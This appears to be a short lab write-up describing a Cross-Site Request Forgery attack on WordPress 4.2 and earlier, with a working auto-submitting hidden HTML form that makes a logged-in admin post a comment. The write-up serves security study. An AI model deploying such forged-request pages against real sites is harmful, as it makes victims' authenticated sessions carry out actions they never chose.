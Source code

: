 Cross Site Request Forgery (CSRF) Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks are possible when the application does not ensure that a user is in fact interacting with it.

Steps:

1)Create a malicious form code:

    <html>
        <head></head>
        <body>
            <form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
                <input type="hidden" name="comment" value="I made a new comment">
                <input type="hidden" name="comment_post_ID" value="1">
                <input type="hidden" name="comment_parent" value="0">
                <input type="hidden" name="_wp_unfiltered_html_comment" value="456890231">
                <input type="submit" value="Post+Comment">
            </form>
            <script>document.csrfForm.submit(); </script>
    </body>
    </html>
    
2)With that code set up a malicious website

3)The malicious website will automatically submit ad post the comment 'I made a new comment' as an admin.

Tested in version: WordPress <= 4.2

GIF Walkthrough:

![CSRF](https://user-images.githubusercontent.com/78192383/162076560-c9452ca4-848f-4010-9c10-ce8a0b0c7de4.gif)
